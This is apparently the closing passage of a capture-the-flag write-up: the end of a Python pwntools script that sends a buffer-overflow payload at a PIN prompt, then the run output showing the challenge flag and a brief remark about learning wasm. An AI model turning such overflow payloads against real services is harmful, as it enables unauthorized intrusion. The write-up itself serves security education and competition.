 ```python
            0x0,
            0xffffffff00000004,
            0x00000000ffffffff,
            *((0x0,)*134),
            0x0000005200000480,
            0x0,
)
p.sendlineafter(b"PIN:", payload)
p.interactive()
```

```
$ : python3 solve.py
[+] Opening connection to challs.nusgreyhats.org on port 30212: Done
[*] Switching to interactive mode
 
After several intense attempts, you successfully breach the phone's defenses.
Unlocking its secrets, you uncover a massive revelation that holds the power to reshape everything.
The once-elusive truth is now in your hands, but little do you know, the plot deepens, and the journey through the
clandestine hie
$out takes an unexpected turn, becoming even more complicated.
\x1b[0m
grey{s1mpl3_buff3r_0v3rfl0w_w4snt_1t?_r3m3mb3r_t0_r34d_th3_st0ryl1ne:)}
```

Very cool challenge that inspired me to learn more about wasm! :)

